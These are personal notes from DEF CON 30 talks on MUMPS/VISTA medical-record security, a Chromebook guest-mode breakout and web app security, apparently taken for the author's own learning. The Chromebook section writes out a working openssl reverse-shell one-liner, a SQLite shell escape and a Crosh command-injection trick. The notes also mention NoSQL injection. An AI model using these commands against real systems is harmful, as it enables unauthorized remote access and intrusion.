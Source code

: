 # DEF CON 30

author:: Nathan Acks  
date:: 2022-08-13

DEF CON talks in the morning, and another workshop this afternoon.

* [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

## How to Get MUMPS Thirty Years Later

SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.

MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile - it's also used by other hospitals, police departments, banks, and even the ESA.

MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there's no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).

MUMPS can be treated as both a scripted and compiled language.

More than 50% of all electronic medical records pass through some sort of MUMPS application.

VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans' Administration.

In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it's written in a slightly more modern language, DELPHI `O_o`).

CPRS/VISTA are *extremely* chatty on the network.

VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn't think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!

Zach's had trouble getting the VA to talk to them, so disclosure's still ongoing here.

VISTA is *really* well-loved by the doctors who use it.

* [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA'd Code)](assets/how-to-get-mumps-thirty-years-later-or-hacking-the-government-via-foiad-code-zachary-minneker.pptx)
* [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

## Chromebook Breakout

This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.

This vulnerability was actually patched two years ago by Google...

This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.

The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It's much faster than Hak5's tool.

Interesting redirect trick - use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.

You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`

In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).

SQLite shell escape: `.shell bash`

Oof... There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.

Chrome OS has a restricted `finger` command called `pinky` that's used internally.

If you can get to `dbus` on a Chromebook, you can access *some* (but not all!) Dev Mode tools (like `ping`).

(I wasn't able to catch the end of this presentation, however, as I needed to head out to my last workshop...)

* [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](assets/chromebook-breakout-escaping-jail-with-your-friends-using-a-pico-ducky-jimi-allee.pdf)
* [Pico Ducky](https://github.com/dbisu/pico-ducky)

## Securing Web Apps

TIL: There is such a thing as NoSQLi, and it's *way* easier than SQLi - just drop objects containing search operators into the NoSQL queries instead of actual data!

You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.

If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using "Preferences > RSA Keys".

Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select "Follow > TCP Stream, (3) change "Show data as" to "Raw", and (4) save it off using "Save As".

* [Securing Web Apps](https://forum.defcon.org/node/241772)
* [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)
